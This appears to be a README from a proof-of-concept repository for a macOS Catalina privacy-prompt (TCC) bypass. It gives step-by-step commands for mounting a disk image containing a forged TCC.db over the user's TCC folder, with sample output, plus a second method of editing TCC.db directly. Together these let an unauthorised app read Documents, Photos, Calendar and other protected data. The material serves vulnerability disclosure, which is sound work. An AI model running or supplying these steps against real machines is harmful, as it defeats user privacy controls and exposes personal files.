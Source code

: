 # TCC prompt bypass

## Summary

An application can mount volumes at `~/Library/Application Support/com.apple.TCC`. This can be exploited by a malicious application to bypass TCC prompt by mounting a disk image containing `TCC.db` at `~/Library/Application Support/com.apple.TCC`.

## Demo

See file `demo.mov` containing the video demonstrating this exploit. To run this exploit, execute following commands 

1. Ensure `terminal` is not allowed to access `~/Documents` directory
   
   ```bash
   tccutil reset All com.apple.Terminal
   ls ~/Documents # Press Don't allow when TCC prompt is displayed
   ```
   
   The `ls` commands should fail with `Operation not permitted error`

2. Run `exploit.sh` to list files in `~/Documents`directory
   
   ```bash
   bash exploit.sh
   ```
   
   Running `exploit.sh` should output the list of files in `~/Documents` directory

## Impact

Malicious applications can bypass TCC prompt and access sensitive data like `Contacts`, `Photos`, `~/Documents` etc. normally protected by system.

## Exploitability

This exploit is tested to work on

1. Latest macOS Catalina stable release `10.15.3 (19D76)`

2. Latest macOS Catalina developer beta `10.15.4 Beta 3 (19E242d)`

**Note:** In macOS Catalina stable release `10.15.3 (19D76)`, an application can directly read and write `~/Library/Application Support/com.apple.TCC/TCC.db`. Hence a malicious application can bypass TCC by directly modifying database `TCC.db`. This is fixed on current macOS catalina developer beta version. But mounting volumes at `~/Library/Application Support/com.apple.TCC` still works in developer beta which is utilized by this exploit.

## Working

The `com.apple.TCC.dmg` disk image contains `TCC.db` which authorise following services for `Terminal` app

- kTCCServiceSystemPolicyDownloadsFolder

- kTCCServiceSystemPolicyDocumentsFolder

- kTCCServicePhotos

- kTCCServiceSystemPolicyDesktopFolder

- kTCCServiceCalendar

The following commands will mount the disk image `com.apple.TCC.dmg` at `~/Library/Application Support/com.apple.TCC`. This will override the `TCC.db` database with `TCC.db` in disk image 

1. Attach the APFS disk image using `hdiutil`
   
   ```bash
   hdiutil attach -nomount com.apple.TCC.dmg
   ```
   
   This should output will be similar to
   
   ```bash
   /dev/disk2              GUID_partition_scheme              
   /dev/disk2s1            Apple_APFS                         
   /dev/disk3              EF57347C-0000-11AA-AA11-0030654    
   /dev/disk3s1            41504653-0000-11AA-AA11-0030654    
   ```
   
   **Note**: In above example output, the partition in disk image where `TCC.db` is stored is attached to `/dev/disk3s1`. Replace `/dev/disk3s1` in below steps if you have a different output.

2. Mount the disk partition to `~/Library/Application Support/com.apple.TCC`
   
   ```bash
   mount_apfs /dev/disk3s1 ~/Library/Application\ Support/com.apple.TCC
   ```

3. Use `tccutil` to reload database `TCC.db`. This will load the database inside mounted volume
   
   ```bash
   tccutil reset AddressBook com.apple.Terminal
   ```

4. Access restricted `~/Documents` directory
   
   ```bash
   ls ~/Documents
   ```

5. *Optional*: Cleanup by unmounting and reloading `TCC.db`
   
   ```bash
   hdiutil detach -force /dev/disk3
   tccutil reset AddressBook com.apple.Terminal
   ```

## Change log

###### 28th February 2020

1. Initial release

###### 2nd March 2020

1. It is possible to mount volumes at non empty directories without `union` mount option. Thus `union` mount option is not required for this exploit to work. Updated title and sections "summary" and "working" to reflect this change
2. Tested and verified that this exploit works on latest macOS catalina beta release `10.15.4 Beta 3 (19E242d)`. Updated "exploitability" section to reflect this change
3. Added note in "exploitability" section mentioning another exploit method which works on current macOS catalina stable release `10.15.3 (19D76)` but is fixed on latest developer beta
